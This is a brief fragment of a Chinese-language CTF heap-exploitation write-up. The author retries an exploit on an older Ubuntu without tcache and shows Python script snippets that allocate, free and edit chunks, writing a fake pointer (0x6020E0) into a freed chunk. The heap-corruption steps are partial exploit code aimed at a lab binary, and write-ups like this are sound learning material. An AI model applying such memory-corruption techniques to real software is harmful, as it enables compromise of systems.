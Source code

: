 ```python

pause()
```

原本设想是可以的，加上add(18,0x108)之后程序总是出错无法运行，所以更换ubuntu的版本进行尝试，尽量找没有tcachebins机制的。



版本如下

![upload successful](/images/pasted-77.png)



重新改脚本

```python
add(0,0x108)
add(1,0x108)
add(2,0x108)
free(0)

edit(0,0x20,p64(0)+p64(0x6020E0)+"\n"

add(3,0x108)
     
pause()

```



free(0)之后

